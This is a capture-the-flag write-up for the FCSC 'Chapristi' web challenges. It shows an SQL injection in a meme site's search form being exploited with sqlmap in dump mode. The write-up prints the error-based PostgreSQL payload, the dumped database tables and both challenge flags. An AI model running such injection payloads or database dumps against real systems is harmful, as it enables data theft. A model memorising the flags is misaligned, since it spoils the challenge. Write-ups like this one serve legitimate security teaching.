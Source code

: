 # Web / Chapristi 1 & 2

## Challenge 1 :star:
> Un ami m'a fourni un site pour stocker mes memes, et il me dit qu'il y a deux flags cachés dedans. Pouvez-vous m'aider à les trouver ? Pour cette première épreuve, votre but est de trouver un meme caché.

## Challenge 2 :star::star:
> Un ami m'a fourni un site pour stocker mes memes, et il me dit qu'il y a deux flags cachés dedans. Pouvez-vous m'aider à les trouver ?

## Inputs
- Web site at `https://chatpristi.france-cybersecurity-challenge.fr/`

## Solution
The search form looks vulnerable to `SQL injection`: a basic quote throws the following error:
```
pq: operator is not unique: unknown % unknown
```
Googling around shows this comes from a Postgres database.

So I jumped onto `sqlmap` (which I shouldn't have...) in batch mode, while I was poking around manually.
Soon enough, `sqlmap` exploited and dumped the database automagically!
```console
$ sqlmap -r search.req --batch --dump
(...)       ___
[22:43:35] [INFO] parsing HTTP request from 'search.req'
[22:43:35] [INFO] resuming back-end DBMS 'postgresql'
[22:43:36] [INFO] testing connection to the target URL
got a 301 redirect to 'https://chatpristi.france-cybersecurity-challenge.fr/?search=boss--%20-'. Do you want to follow? [Y/n] Y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: search (GET)
    Type: error-based
    Title: PostgreSQL AND error-based - WHERE or HAVING clause
    Payload: search=boss-- -') AND 5002=CAST((CHR(113)||CHR(106)||CHR(112)||CHR(122)||CHR(113))||(SELECT (CASE WHEN (5002=5002) THEN 1 ELSE 0 END))::text||(CHR(113)||CHR(106)||CHR(118)||CHR(112)||CHR(113)) AS NUMERIC) AND ('ecMU'='ecMU
---
[22:43:36] [INFO] the back-end DBMS is PostgreSQL
back-end DBMS: PostgreSQL
(...)
Database: public
Table: memes
[7 entries]
+----+-----------------------------------+----------------------------------------------------------------------+
| id | tags                              | filename                                                             |
+----+-----------------------------------+----------------------------------------------------------------------+
| 1  | fcsc|flag                         | 3f5ce7b380dd03c3e71a29b2560323d058ce481fc7f3cdd505b02526af7d484e.jpg |
| 2  | fcsc|intro|boss                   | 447de8ebbe9d9bf419dab0543f42fa456e99def65bdfa2e3aeed1cf771b50589.jpg |
| 3  | anniversaire|birthday|flag|grumpy | 743ad5c5eb260d00cff5ba193619f714b203f91ab87017cc74b65a5b466ba79a.jpg |
| 4  | fcsc|crypto                       | 7c2df8488bb263c868573aaf8e7d1fa0426149fb0c905ae5b71d9b0c3da37b8e.jpg |
| 5  | fcsc|révisions|ti83               | ec38bc3fe51533a81afba341a1bf85748a83214ca5fcb25c10d292212235b0ab.jpg |
| 6  | fcsc|web|crypto|challenge         | f7f997781b691fbaaee2d4c9778d534a3c05b0c4ecd8ea0e7c98035e738d8f68.jpg |
| 7  | fcsc|fatigue|tired|tryhard        | a1826ad7aa90c51dfef5e2e87237748a08abaf8c5932b5d42a16b744d3d7c2f7.jpg |
+----+-----------------------------------+----------------------------------------------------------------------+
(...)
Database: public
Table: ___youw1lln3verfindmyfl4g___
[1 entry]
+----+------------------------------------------------------------------------+
| id | fstbg0adwb8f5upmg                                                      |
+----+------------------------------------------------------------------------+
| 1  | FCSC{edfaeb139255929e55a3cffe9f3f37cd4e871e5015c4d4ade2b02d77d44019e5} |
+----+------------------------------------------------------------------------+
(...)
```

So we get out first flag: FCSC{edfaeb139255929e55a3cffe9f3f37cd4e871e5015c4d4ade2b02d77d44019e5}

We also get a list of seven .jpg pictures, while only six were present on the website...
The one that is missing is:
- `3f5ce7b380dd03c3e71a29b2560323d058ce481fc7f3cdd505b02526af7d484e.jpg`.

Dump it in the search form... but the image is not displayed.

Looking at the source code of the meme collection page shows that the images are stored in /static:
```html
<figure class="image">  
    <a href="/?search=447de8ebbe9d9bf419dab0543f42fa456e99def65bdfa2e3aeed1cf771b50589.jpg">
        <img src="static/447de8ebbe9d9bf419dab0543f42fa456e99def65bdfa2e3aeed1cf771b50589.jpg" alt="">
    </a>
</figure>
```

So we finally get that image at:
- `https://chatpristi.france-cybersecurity-challenge.fr/static/3f5ce7b380dd03c3e71a29b2560323d058ce481fc7f3cdd505b02526af7d484e.jpg`

![3f5ce7b380dd03c3e71a29b2560323d058ce481fc7f3cdd505b02526af7d484e.jpg](3f5ce7b380dd03c3e71a29b2560323d058ce481fc7f3cdd505b02526af7d484e.jpg)

This gives us the other flag, for the missing meme: FCSC{1D32671928B0DFD5E0B92B57871B1D49}

## Flags
- FCSC{1D32671928B0DFD5E0B92B57871B1D49}
- FCSC{edfaeb139255929e55a3cffe9f3f37cd4e871e5015c4d4ade2b02d77d44019e5}
